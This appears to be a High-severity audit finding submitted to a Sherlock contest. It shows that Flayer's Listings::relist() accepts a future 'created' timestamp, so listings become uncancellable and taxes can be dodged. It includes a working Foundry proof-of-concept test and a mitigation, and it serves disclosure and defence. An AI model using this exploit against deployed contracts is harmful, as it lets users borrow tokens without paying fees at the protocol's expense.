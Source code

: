Large Mauve Parrot

High

# It's possible to create listings with an arbitrary start timestamp

### Summary

[Listings::relist()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L625) allows to create listings with an arbitrary starting time, allowing to create listings that cannot cannot be filled, modified, cancelled, relisted or reserved.

### Root Cause

The function [Listings::relist()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L625) doesn't overwrite the `.created` input of the new listing, allowing the caller to create a listing with an arbitrary `.created` parameter. This can be used to create listings that cannot be filled, modified, cancelled, relisted or reserved 
because all of those functions internally call [_resolveListingTax()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L918) which reverts for underflow when `.created` is bigger than the current `block.timestamp`:

```solidity
    if (block.timestamp < _listing.created + _listing.duration) {
        refund_ = (_listing.duration - (block.timestamp - _listing.created)) * taxPaid / _listing.duration;
    }
```

Crafting listings that cannot be changed allow users to borrow `1e18` collection tokens without risking their ERC721, which should generally be done via protected listings, while having the possibility of being refunded for the whole tax the moment `block.timestamp == .create`.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Alice deposits an ERC721 in the locker via [Locker::deposit()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L144).
2. Alice relists the just deposited ERC721 via [Listings::relist()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L625) by passing as input a `.created` timestamp equal to the current block timestamp plus 30 days.
3. Alice received `1e18` collection tokens while her listing cannot be filled/relisted/reserved, plus she paid some taxes.
4. After exactly 30 days Alice calls [Listings::cancelListings()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L414), paying back `1e18` collcetion tokens while getting back a refund for the taxes she paid plus her ERC721.

### Impact

An attacker can craft listings that cannot be filled, modified, cancelled, relisted or reserved. This can be used to borrow collection tokens without paying fees/taxes.


### PoC

<details>
  <summary>To copy-paste in `Listings.t.sol`:</summary>

  ```solidity
function test_ExCanRelistFloorItemAsLiquidListing() public {
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    address _lister = alice;
    address payable _relister = payable(bob);
    uint _tokenId = 10;

    //Warp to have a big enough block.timestamp
    vm.warp(block.timestamp + 1000000);

    // Provide a token into the core Locker to create a Floor item
    erc721a.mint(_lister, _tokenId);

    vm.startPrank(_lister);
    erc721a.approve(address(locker), _tokenId);

    uint[] memory tokenIds = new uint[](1);
    tokenIds[0] = _tokenId;

    // Rather than creating a listing, we will deposit it as a floor token
    locker.deposit(address(erc721a), tokenIds);
    vm.stopPrank();

    // Confirm that our listing user has received the underlying ERC20. From the deposit this will be
    // a straight 1:1 swap.
    ICollectionToken token = locker.collectionToken(address(erc721a));

    vm.startPrank(_relister);

    // Provide our filler with sufficient, approved ERC20 tokens to make the relist
    uint startBalance = 0.5 ether;
    deal(address(token), _relister, startBalance);
    token.approve(address(listings), startBalance);

    // Relist the floor item with a `created` field 30 days in the future
    listings.relist({
        _listing: IListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(_tokenId),
            listing: IListings.Listing({
                owner: _relister,
                created: uint40(block.timestamp + 30 days),
                duration: listings.MIN_LIQUID_DURATION(),
                floorMultiple: 101
            })
        }),
        _payTaxWithEscrow: false
    });

    vm.stopPrank();

    // Provide our filler with sufficient, approved ERC20 tokens to make the relist
    startBalance = 1 ether;
    deal(address(token), _relister, startBalance);
    token.approve(address(listings), startBalance);
    vm.startPrank(_relister);
    token.approve(address(listings), type(uint256).max);

    //It's impossible to cancel a listing with a future starting date
    vm.expectRevert();
    listings.cancelListings(address(erc721a), _tokenIdToArray(_tokenId), false);

    //Warp 30 days in the future
    vm.warp(block.timestamp + 30 days);

    //Cancel listing and don't pay taxes
    listings.cancelListings(address(erc721a), _tokenIdToArray(_tokenId), false);
}
  ```
</details>

### Mitigation

In [Listings::relist()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L625) overwrite the user provided `created` field with the current `block.timestamp`.